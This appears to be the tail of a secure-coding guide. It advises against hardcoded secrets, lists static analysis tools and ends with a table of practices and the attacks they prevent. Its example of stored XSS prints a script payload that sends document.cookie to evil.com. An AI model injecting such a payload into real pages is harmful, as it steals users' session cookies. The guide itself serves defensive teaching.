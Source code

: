 
### 9️⃣ **Avoid Hardcoded Secrets**

❌ Do not store secrets in code or config:

```js
const DB_PASSWORD = "root123"  // ❌
```

✅ Use:

* `.env` files
* Secrets Manager (AWS Secrets Manager, Vault)

---

### 🔟 **Perform Regular Code Reviews and Static Analysis**

Tools:

* **SonarQube**
* **Bandit** (Python)
* **Brakeman** (Ruby)
* **ESLint/TSLint** with security plugins

---

## 🧠 Real-World Example

> A developer didn’t encode user inputs in an internal dashboard. An attacker injected:

```html
<script>fetch('http://evil.com/steal?c='+document.cookie)</script>
```

Now all admin sessions are hijacked — **classic Stored XSS**.

---

## 📌 Summary Table

| Practice              | Prevents             |
| --------------------- | -------------------- |
| Input Validation      | Injection, XSS       |
| Output Encoding       | Reflected/Stored XSS |
| SQL Parameterization  | SQLi                 |
| Secure Passwords      | Credential theft     |
| Proper Error Handling | Info leakage         |
| Code Reviews          | Early detection      |
| Secure Headers        | Browser exploitation |
| Secrets Management    | Credential leaks     |

---